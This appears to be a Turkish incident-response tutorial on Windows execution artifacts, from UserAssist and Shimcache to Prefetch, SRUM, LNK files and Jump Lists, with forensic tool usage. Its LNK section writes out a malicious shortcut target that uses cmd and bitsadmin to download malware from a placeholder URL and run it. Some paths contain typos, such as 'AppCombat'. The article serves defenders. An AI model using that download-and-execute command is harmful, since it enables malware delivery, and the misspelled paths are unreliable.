# Giriş


Yapılan olay müdahaleleri esnasında analistler tarafından hem yol gösterici hem de son derece net bulgular elde edilebilecek noktalardan birisi de Windows işletim sistemi tarafından sağlanan "Çalışan Uygulama Kalıntıları"dır. Windows'un farklı amaçlarla oluşturduğu bu ve benzeri yapılar analiz aşamalarında analistlere yardımcı olmaktadır. Örneğin Windows Prefetch yapısı, uygulamaların daha hızlı çalışması amaçlanarak yapılmış olsa da, olay müdahalesi esnasında bir uygulamanın çalışıp/çalışmadığına dair kanıt oluşturabilmektedir. Bu yazı serisinde, olay müdahalesinde kanıt niteliği taşıyan Windows yapılarından bahsedilecektir. 




---
# İçerik

+ UserAssist
+ RecentApps
+ Shimcache
+ Amcache
+ Prefetch
+ SRUM
+ Last-Visited MRU
+ LNK
+ JumpLists

---

<h1 style="text-align:center"> UserAssist Nedir? Nasıl Analiz Edilir?</h1>

UserAssist, Windows sistemlerde çalıştırılan uygulamaların; çalıştırılma sayısı, uygulamanın odaklı olarak çalıştırıldığı süre, uygulamanın toplam çalıştırıldığı süre ve son çalıştırılma zamanını saklamaktadır. Burada şu nokta kaçırılmamalıdır; burada çalıştırılma sayısının artması için kullanıcı interaksiyonu olması gerekmektedir adı üstünde " **User** Assist". Yani buraya bir kayıt düşmesine rağmen "count" değeri 0 oluyorsa şaşırmayın :) 

"Evet bu dosyalar nerede ve nasıl bulunur?" sorusuna gelecek olursak; çeşitli araçlar yardımıyla veya manuel olarak analiz edilebilir. Aslına bakıldığında bir registry kaydıdır. Fakat "Ben tek tek uğraşmak istemiyorum" derseniz yardımcı araçlar kullanabilirsiniz. **HKCU\Software\Microsoft\Windows\Currentversion\Explorer\UserAssist\{GUID}\Count** içerisinde bulunmaktadır. 
Burada belirli GUID'ler bulunmaktadır. **CEBFF5CD**, “**exe**” dosyalarının tutulduğu, **F4E57C4B** ise **kısayol** dosyalarının countlarını göstermektedir. Burada tutulan verilerin tümü **ROT-13** ile **encode** edilmiştir. Örneğin: "**.exe = .RKR**" "**.lnk=.YAX**".




| Offset | Boyut(byte) | Açıklama |
| ------:| -----------:| -----------: |
| 0-3    |  4          | Oturum tanımlar |
| 4-7    |  4          | Çalıştırma sayısı (0'dan başlar) |
| 8-11   |  4          | Focus sayısı |
| 12-15  |  4          | Uygulamanın toplam focus süresi (milisaniye)|
| 16-59  |  44         | Bilinmiyor |
| 60-67  |  8          | Son çalıştırılma zamanı (FILETIME) |
| 68-72  |  4          | Her zaman 0x00000000 | 

[1]



---
<h1 style="text-align:center"> RecentApps Nedir? Nasıl Analiz Edilir?</h1>

Uygulamaların son çalışma zamanını ve çalışma sayaçlarını tutan registery değeridir. 
**HKCU\Software\Microsoft\Windows\Current Version\Search\RecentApps** kayıt defteri içeriğinde bulunur.



**AppID**= Uygulamanın AppID’si.

**LastAccessedTime**= Son çalıştırılma zamanı (UTC)

**LaunchCount**= Çalıştırılma sayacı.

Yalnızca Windows 10 sistemlerde RecentApps kayıtları bulunmaktadır.

---

<h1 style="text-align:center"> Shimcache Nedir? Nasıl Analiz Edilir?</h1>

Shimcache (AppCompatCache), Microsoft tarafından oluşturulan (Windows XP'den itibaren) ve işletim sistemi tarafından uygulama uyumluluğu sorunlarını belirlemek için kullanılan Uygulama Uyumluluk Veritabanının bir bileşenidir.

Bir çalıştırılabilir dosyanın daha önce cihaz üzerinde çalışıp çalışmadığını ve ne zaman çalıştığının sorularına cevap arıyorsak bakmamız gereken yer Shimcache kalıntısıdır. Bunun için FTK Imager aracı ile bir imaj alıp, **%SYSTEMROOT%/system32/config** dizini altında bulunan SYSTEM hive dosyaları ve log dosyaları alınır. 



Canlı sistem üzerinde kanıt dosyası **HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache** kayıt defteri anahtarında bulunur. 



İşletim sistemi türü ve versiyonuna göre farklılık gösteren Shimcache, aşağıdaki bilgileri içermektedir;
+ File Full Path
+ File Size
+ $Standard_Information (SI) Last Modified time
+ Shimcache Last Updated time
+ Process Execution Flag

Kayıtlar HEX halinde tutulduğu için parser uygulamalar kullanılarak daha anlaşılır sonuçlar elde edilebilir.

**AppCompatCacheParser**

Eric Zimmerman tarafından hazırlanan bu araç yardımı ile çeşitli çıktı yöntemleri ile verilen bir SYSTEM hive dosyası veya aracın çalıştığı sistemin kayıtlarını (yönetici yetkisi gerektirmektedir) analiz edip çıktı sunmaktadır.Burada analiz yapan kişi belirli IOC'ler yardımıyla tarama yaptığında ismi bilinen bir zararlı yazılımın daha önce sistemde çalışıp çalışmadığını tespit edebilir.  


```
AppCompatCache Parser version 1.4.4.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
github[.]com/EricZimmerman/AppCompatCacheParser

        c               The ControlSet to parse. Default is to extract all control sets.
        f               Full path to SYSTEM hive to process. If this option is not specified, the live Registry will be used
        t               Sorts last modified timestamps in descending order

        csv             Directory to save CSV formatted results to. Required
        csvf            File name to save CSV formatted results to. When present, overrides default name

        debug           Debug mode
        dt              The custom date/time format to use when displaying timestamps.     Default is: yyyy-MM-dd HH:mm:ss
        nl              When true, ignore transaction log files for dirty hives. Default is FALSE

Examples: AppCompatCacheParser.exe --csv c:\temp -t -c 2
          AppCompatCacheParser.exe --csv c:\temp --csvf results.csv

          Short options (single letter) are prefixed with a single dash. Long commands are prefixed with two dashes
```

Dosyalar alındıktan sonra çalıştırılan komut satırı üzerinden “**AppCompatCacheParser.exe -f SYSTEM –csv <çıktı alınacak dizin>**” şeklinde çalıştırıp çıktı alınabilir.



Oluşan “csv” dosyası incelendiğinde son çalışan uygulamaların kayıtlarının tutulduğu görülmüştür. Shimcache, işletim sistemine bağlı olarak yani tutulan veri miktarı işletim sistemine göre değişir genel anlamda aşağıdakiler gibi çeşitli dosya meta verilerini depolar: Dosyanın tam yolu, dosya boyutu, $Standard_Information (SI) son değiştirilme zamanı, Shimcache son güncelleme zamanı, Process execution işareti. Shimcache.hve'deki olaylar, en son olay en başta olmak üzere kronolojik sırayla listelenir ve zaman çizelgelerinde kötü amaçlı prosesleri yeniden oluşturmak ve belirlemek için kullanılabilir.



---

<h1 style="text-align:center"> Amcache Nedir? Nasıl Analiz Edilir?</h1>

ProgramDataUpdater( Application Experience Service ile bağlantılı bir task) process oluşturma süresince Amcache.hve registry dosyasını kullanır. Dosya yolu => **\\%SYSTEMROOT%\AppCombat\Programs\Amcache.hve**

Amcache, çalıştırılan dosyanın yolu, ilk çalıştırılma zamanı, silinme zamanı ve SHA1 hash değerini barındırmaktadır.

Amcache taşınabilir cihazlar üzerinden çalıştırılan uygulamaların da kaydını tuttuğu için anti-forensic uygulamalarının kayıtları da bu kalıntı içerisinde bulunabilir.

**AmcacheParser**
Eric Zimmerman tarafından hazırlanan bu araç yardımıyla çeşitli çıktı yöntemleriyle verilen bir **Amcache.hve** hive dosyası veya çalıştığı sistemin kayıtlarını (yönetici yetkisi gerektirmektedir) analiz edip çıktı sunmaktadır.Burada analiz yapan kişi belirli IOC'ler yardımıyla tarama yaptığında ismi/hash değeri bilinen bir zararlı yazılımın daha önce sistemde çalışıp çalışmadığını tespit edebilir.  

```
AmcacheParser version 1.4.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
github[.]com/EricZimmerman/AmcacheParser

        b               Path to file containing SHA-1 hashes to *include* from the results. Blacklisting overrides whitelisting
        f               Amcache.hve file to parse. Required
        i               Include file entries for Programs entries
        w               Path to file containing SHA-1 hashes to *exclude* from the results. Blacklisting overrides whitelisting

        csv             Directory where CSV results will be saved to. Required
        csvf            File name to save CSV formatted results to. When present, overrides default name

        dt              The custom date/time format to use when displaying timestamps.     Default is: yyyy-MM-dd HH:mm:ss
        mp              When true, display higher precision for timestamps. Default is FALSE
        nl              When true, ignore transaction log files for dirty hives. Default is FALSE

        debug           Show debug information during processing
        trace           Show trace information during processing


Examples: AmcacheParser.exe -f "C:\Temp\amcache\AmcacheWin10.hve" --csv C:\temp
          AmcacheParser.exe -f "C:\Temp\amcache\AmcacheWin10.hve" -i on --csv C:\temp --csvf foo.csv
          AmcacheParser.exe -f "C:\Temp\amcache\AmcacheWin10.hve" -w "c:\temp\whitelist.txt" --csv C:\temp

          Short options (single letter) are prefixed with a single dash. Long commands are prefixed with two dashes
```
---

<h1 style="text-align:center"> Prefetch Nedir? Nasıl Analiz Edilir?</h1>

Windows Prefetch dosyaları, uygulama başlatma sürecini hızlandırmak için tasarlanmıştır. **%windir%\Prefetch** klasörü altında bulunmaktadır. Bu dizin içerisinde bulunan dosyalarda; yürütülebilir dosyanın adı, dosya tarafından kullanılan DLL’lerin listesi, dosyanın kaç kez çalıştığı ve en son çalışma zamanını içeren bir damga bulunmaktadır.

Bu dosya içerisinde Windows 7 sistemlerde 128 adet uygulama için, Windows 8 ve 10 sistemlerde ise 1024 adet uygulama için kayıt tutulur.

Birden fazla dosya bulunduğu için tek tek bu kayıtları incelemek zaman kaybı oluşturmaktadır. Burada yine çeşitli araçlar bulunmaktadır. 

**PECmd**

Adli analiz süreçlerinde sıklıkla kullanılan PECmd, çalıştırıldığı cihaz üzerindeki veya verilen dizindeki Prefetch kayıtlarını analiz edip çeşitli türde çıktı sunmaktadır. Burada analiz yapan kişi belirli IOC'ler yardımıyla tarama yaptığında ismi/hash değeri bilinen bir zararlı yazılımın daha önce sistemde çalışıp çalışmadığını tespit edebilir.  

```
 PECmd version 1.4.0.0

 Author: Eric Zimmerman (saericzimmerman@gmail.com)
 github[.]com/EricZimmerman/PECmd
 
         d               Directory to recursively process. Either this or -f is required
         f               File to process. Either this or -d is required
         k               Comma separated list of keywords to highlight in output. By default, 'temp' and 'tmp' are highlighted. Any additional keywords will be added to these.
         o               When specified, save prefetch file bytes to the given path. Useful to look at decompressed Win10 files
         q               Do not dump full details about each file processed. Speeds up processing when using --json or --csv. Default is FALSE
 
         json            Directory to save json representation to.
         jsonf           File name to save JSON formatted results to. When present, overrides default name
         csv             Directory to save CSV results to. Be sure to include the full path in double quotes
         csvf            File name to save CSV formatted results to. When present, overrides default name
         html            Directory to save xhtml formatted results to. Be sure to include the full path in double quotes
         dt              The custom date/time format to use when displaying timestamps.     Default is: yyyy-MM-dd HH:mm:ss
         mp              When true, display higher precision for timestamps. Default is FALSE
 
         vss             Process all Volume Shadow Copies that exist on drive specified by -f or -d . Default is FALSE
         dedupe          Deduplicate -f or -d & VSCs based on SHA-1. First file found wins. Default is TRUE

         debug           Show debug information during processing
         trace           Show trace information during processing
 
 Examples: PECmd.exe -f "C:\Temp\CALC.EXE-3FBEF7FD.pf"
           PECmd.exe -f "C:\Temp\CALC.EXE-3FBEF7FD.pf" --json "D:\jsonOutput" --jsonpretty
           PECmd.exe -d "C:\Temp" -k "system32, fonts"
           PECmd.exe -d "C:\Temp" --csv "c:\temp" --csvf foo.csv --json c:\temp\json
           PECmd.exe -d "C:\Windows\Prefetch"

           Short options (single letter) are prefixed with a single dash. Long commands are prefixed with two dashes
```

“**PECmd.exe -d “C:\Windows\Prefetch” –csv <çıkarılacak dizin ismi> -q**” komut satırı ile çalıştırılmıştır. “-q” parametresi bütün adımları tek tek komut satırı ekranında gösterilmemesi için yazılmıştır.

Analizi gerçekleştirilen Prefetch dosyalarından elde edilen bilgiler şu şekildedir; “.pf” dosyasının oluşturulma/değiştirilme ve erişim zamanı, “.pf” dosyasının oluşmasına sebep olan çalıştırılabilir dosyanın ismi, çalıştırılabilir dosyanın boyutu ve son çalıştırılma zamanı.



---

<h1 style="text-align:center"> SRUM (System Resource Usage Monitor) Nedir? Nasıl Analiz Edilir?</h1>

SRUM, sistem kaynaklarının kullanımını takip edip kaydeden bir mekanizmadır. 30-60 gün arası kayıtları tutan SRUM aslında Windows Görev Yöneticisinde gördüğümüz verilerin kayıtlarını tutmaktadır. Bunlar; network, CPU, RAM, GPU, disk kullanımı gibi verilerdir.

SRUM Uygulama Kaynak Kullanımı Kayıtları ;

+ Application Full Path - Uygulamanın tam dosya yolu.
+ Application ID - Uygulama ID'si.
+ Background Bytes Read - Arkaplanda okunan byte sayısı.
+ Background Bytes Written - Arkaplanda yazılan byte sayısı.
+ Background Context Switches - Arkaplan bağlam anahtarlarının sayısı.
+ Background Cycle Time - Arkaplan döngü zamanı.
+ Background Num Read Operations - Arkaplan okuma işlem sayısı.
+ Background Num Write Operations - Arkaplan yazma işlem sayısı.
+ Background Number Of Flushes - Arkaplan flush sayısı.
+ Created Date - Kaydın veri tabanında oluşma tarihi.
+ Foreground Bytes Read - Önplan okuma işlem sayısı.
+ Foreground Bytes Written - Önplan yazma işlem sayısı.
+ Foreground Context Switches - Önplan bağlam anahtarlarının sayısı.
+ Foreground Cycle Time - Önplan döngü zamanı.
+ Foreground Num Read Operations - Önplan okuma işlem sayısı.
+ Foreground Num Write Operations - Önplan yazma işlem sayısı.
+ Foreground Number Of Flushes - Önplan flush sayısı.
+ Row ID - Satır ID'si.
+ User ID - Kullanıcı ID'si.
+ User SID - Uygulamayı çalıştıran kullanıcının Security Identifier değeri.[2]

SRUM Network Kaynak Kullanımı Kayıtları;

+ Connection Duration - Network'e bağlı kalınan süre (saniye).
+ Connection Start Date - Bağlantının sağlandığı Tarih/Saat.
+ Created Date - Kaydın veri tabanında oluşma tarihi.
+ Interface Type - Interface türü .

---

<h1 style="text-align:center"> Last-Visited MRU Nedir? Nasıl Analiz Edilir?</h1>

Açılır pencere halinde kaydetme/açma işlemi yapan çalıştırabilir dosyaların kayıtlarını tutar. Örneğin “Notepad.exe” içerisine yazılan şeyleri CTRL+S makrosu ile kaydetmek istediğimizde eğer bir dosya üzerinde değişiklik yapmayıp yeni bir dosya olarak yazıyorsak bizden kaydetmemiz için bir dosya yolu ve dosya ismi istemektedir.



 **NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\LastVisitedPidlMRU** kayıt anahtarı altında bulunabilir ve çeşitli araçlar yardımı ile analiz edilir.




 
Bu kayıt defteri anahtarında şu kalıntılar bulunmaktadır;
+ Dosya İsmi - Aç/kaydet penceresini açan uygulamanın ismi.
+ Tam Dosya Yolu- Aç/kaydet penceresini açan uygulamanın tam dosya yolu.
+ Ana Anahtar Değişim Tarihi - MRU anahtarının son değişim tarihi.
+ MRU Sıralaması - Aç/kaydet penceresine erişen uygulamaların sırası. Bu işlemi yapan en son uygulamanın değeri 1 olmaktadır (yeniden-eskiye).

---

<h1 style="text-align:center"> LNK Dosyaları Nedir? Nasıl Analiz Edilir?</h1>

LNK, kısayol dosyalarıdır. Sistemde açtığınız bir dosyanın kısayol dosyası otomatik olarak **%APPDATA%\\\Roaming\\Microsoft\\Windows\\Recent Items** dosya yolu içerisinde oluşturulur. Adli bilişim penceresinden baktığımızda, bir dosyanın burada LNK uzantılı kısayolu varsa bu dosya cihazda açılmış diyebiliriz. Zararlı yazılım penceresinden ise LNK dosyalarının yapısına bakmamız gerekmektedir. 




Görselde görüldüğü üzere LNK dosyalarının bir hedef komut satırı bulunmaktadır. Saldırgan size yolladığı LNK dosyasının hedef kısmına **" 'cmd dosya yolu' /C bitsadmin /transfer downloadFile /download /priority normal 'Zararlı Yazılımın indirileceği URL' 'Hedef Dosya Yolu' & start 'Hedef Dosya Yolu'"** yazdığında uzak sunucudan bir zararlı yazılım indirip çalıştırabilir.
Burada bakmamız gereken yer LNK dosyasının **"Hedef"** satırıdır. Dikkat edilmesi gereken husus ise şudur; dosyanına ayarlar kısmındaki hedef kısmında maksimum 255 karakter gözükür fakat buradaki hedef kısmı 4096 karaktere kadar çıkabilmektedir. Bu noktada dosyanın hexadecimal değerlerine bakılması gerekmektedir.



[3]

---

<h1 style="text-align:center"> Jump Lists Nedir? Nasıl Analiz Edilir?</h1>

Windows sistemlerde bulunan görev çubuğunda sabitlenen uygulamalara sağ tıkladığımızda bazı kısayollar ve sağ tıklanılan uygulama ile sık kullanılan dosyalar gözükmektedir. Burada gözüken kısayollara **Jump List** denmektedir.

Windows sistemlerde iki tür Jump List bulunmaktadır.
    
1. AUTOMATICDESTINATIONS-MS
        Kullanıcı bir dosyayı veya uygulamayı açtığında otomatik olarak oluşturulan Jump List dosyalarının bulunduğu dizindir ve  **"C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Recent\AutomaticDestiations"** dosya yolunda bulunur.
2. CUSTOMDESTINATIONS-MS  
        İsminden de anlaşıldığı üzere, kullanıcı tarafından oluşturulan/pinlenen dosya veya uygulamalar için oluşturulan Jump List dosyalarının bulunduğu dizindir ve **"C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Recent\CustomDestinations"** dosya yolunda bulunur.

Burada bulunan kalıntıları analiz etmek için JLECmd (Eric Zimmerman) aracı kullanılabilir.

---

## Referans

[1] www.scitepress[.]org/papers/2017/64167/64167.pdf

[2] forensafe[.]com/blogs/srudb.html

[3] www[.]mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/
